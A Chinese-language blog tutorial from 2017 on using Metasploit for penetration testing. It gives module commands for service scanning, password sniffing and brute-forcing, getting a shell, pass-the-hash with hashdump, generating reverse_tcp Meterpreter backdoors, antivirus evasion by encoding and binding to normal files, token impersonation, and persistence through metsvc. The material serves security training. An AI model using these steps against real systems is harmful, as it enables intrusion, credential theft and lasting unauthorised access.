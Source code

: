 ```yaml
---
title: Metasploit的简单介绍与使用
comments: true
date: 2017-09-30 00:43:53
type:
categories: tool
tags: [TOOL,内网渗透]
---
```


## 简介

Metasploit不仅仅是一个工具软件，它是为自动化地实施经典的、常规的、复杂新颖的攻击，提供基础设施支持的一个完整框架平台。它可以使使用人员将精力集中在渗透测试过程中那些独特的方面上，以及如何识别信息安全计划的弱点上。Metasploit能够让用户通过选择它的渗透攻击模块、攻击载荷和编码器来轻易实施一次渗透攻击，也可以更进一步编写并执行更为复杂的攻击技术。



<!--more-->

## 使用

#### smb模块

调用`use auxiliary/scanner/smb/smb_version`

![](http://owhak23d7.bkt.clouddn.com/17-9-30/45531921.jpg)

显示设置`show options`

指定端口`set RHOSTS ip段范围`

#### 服务识别

调用ssh部分`use auxiliary/scanner/ssh/ssh_version`

![](http://owhak23d7.bkt.clouddn.com/17-9-30/86509622.jpg)

调用ftp部分`use auxiliary/scanner/ftp/ftp_version`

![](http://owhak23d7.bkt.clouddn.com/17-9-30/28207518.jpg)

...(其他操作与上面类似)

#### 密码嗅探

调用`use auxiliary/sniffer/psnuffle`

![](http://owhak23d7.bkt.clouddn.com/17-9-30/10050902.jpg)

#### snmp扫描

调用`use auxiliary/scanner/snmp/snmp_login`

![](http://owhak23d7.bkt.clouddn.com/17-9-30/15531348.jpg)

调用枚举`use auxiliary/scanner/snmp/snmp_enum`

![](http://owhak23d7.bkt.clouddn.com/17-9-30/64077356.jpg)

#### SMB登录验证

调用`use auxiliary/scanner/smb/smb_login`

![](http://owhak23d7.bkt.clouddn.com/17-9-30/16179419.jpg)

扫描时，**绿色[+]**表示**成功** ，**红色[-]**表示**失败** 

![](http://owhak23d7.bkt.clouddn.com/17-9-30/15957606.jpg)

#### VNC身份识别

调用`use auxiliary/scanner/vnc/vnc_none_auth`

![](http://owhak23d7.bkt.clouddn.com/17-9-30/67828355.jpg)

#### WMAP web扫描

调用`load wmap`![](http://owhak23d7.bkt.clouddn.com/17-9-30/69263243.jpg)

不同部分的帮助信息

`wmap_sites -h`
`wmap_targets -h`
`wmap_run -h`
`wmap_vulns -h`

#### 远程代码执行

1. `search 漏洞名` , 然后`use 相应模块`
2. `show payload` , 然后`set payload xxxx` , `set LHOST`(设置本地IP) , `set target xxxxxx`
3. `exploit`有响应后 , 输入`shell`get shell

- 示例

  ![](http://owhak23d7.bkt.clouddn.com/17-9-30/72592710.jpg)

  ![](http://owhak23d7.bkt.clouddn.com/17-9-30/86964295.jpg)

![](http://owhak23d7.bkt.clouddn.com/17-9-30/27001965.jpg)

#### 口令安全

（以mysql为例）

调用`use auxiliary/scanner/scanner/mysql/mysql_login`

![](http://owhak23d7.bkt.clouddn.com/17-9-30/87670533.jpg)

1. 设置target `set RHOSTS xxxx`
2. 设置用户名 `set USERNAME xxxxx` or `set USER-FILE xxxxxx`
3. 设置密码 `set PASSWORD xxxxxx` or `PASS-FILE xxxx`
4. `exploit`

#### HASH值传递渗透

调用`use exploit/windows/smb/psexec`

![](http://owhak23d7.bkt.clouddn.com/17-9-30/94257763.jpg)

1. `set RHOST xxxxxx` , 然后`set SMBUSER xxxxx`
2. `exploit`
3. `hashdump`
4. `set smbpass xxxxxx`

- 示例

  ![](http://owhak23d7.bkt.clouddn.com/17-9-30/92513595.jpg)

#### 多种后门生成

目前metasploit可以生成的后门有：

- windows后门
- linux后门
- java后门
- php后门
- jsp后门
- asp后门
- aspx后门
- android后门
- ......

生成后门 `msfpayload windows/meterpreter/reverse_tcp LHOST=本地ip LPORT=你想使用的端口 X >路径/名字.exe`

![](http://owhak23d7.bkt.clouddn.com/17-9-30/5044364.jpg)

监听

1. `user exploit/multi/handler`
2. `set payload xxxxxx`, `set LHOST xxxxx`, `set LPORT xxxx`
3. 如果你想加密，还可以用`msfencode -e xxxxxx`  or `-t` or `-o`
4. `exploit`

- 示例

  ![](http://owhak23d7.bkt.clouddn.com/17-9-30/86324209.jpg)

  ![](http://owhak23d7.bkt.clouddn.com/17-9-30/38588764.jpg)

#### 内网渗透

1. 首先获取到目标ip的c段

2. 知道具体某个域后，可以用如下指令进一步了解

   - `use incognito`
   - `list_tokens -u`
   - `impersonate_token xxxxxxx`
   - .....

   ![](http://owhak23d7.bkt.clouddn.com/17-9-30/89394020.jpg)

3. 根据不同需要进行不同的深入操作

#### 病毒免杀

免杀的操作有很多种，可以加壳、改壳、改特殊码等等

这里大概展示一下msfencode的部分操作，建议可以多种+多次的组合来操作

- 示例

  ![](http://owhak23d7.bkt.clouddn.com/17-9-30/34875772.jpg)

  ![](http://owhak23d7.bkt.clouddn.com/17-9-30/14499248.jpg)

  ![](http://owhak23d7.bkt.clouddn.com/17-9-30/34251265.jpg)

  ......

  ​

如果想要绑定正常文件，还可以加入参数`-x`

#### XSS+键盘记录

类似的配合还有很多，提供一个大概思路（如图）

![](http://owhak23d7.bkt.clouddn.com/17-9-30/84616764.jpg)

#### 维持访问

前提是当前有个session存活

通过服务启动`run metsvc -A`

回连时使用`windows/metsvc_bind_tcp`的payload就可以

- 示例

  ![](http://owhak23d7.bkt.clouddn.com/17-9-30/12803034.jpg)

  ![](http://owhak23d7.bkt.clouddn.com/17-9-30/49724016.jpg)





metasploit的功能十分强大，每个模块的具体功能还有很多，具体还是要靠自己去摸索，去尝试，这样在实际操作中才会面对不同的情况都能灵活应对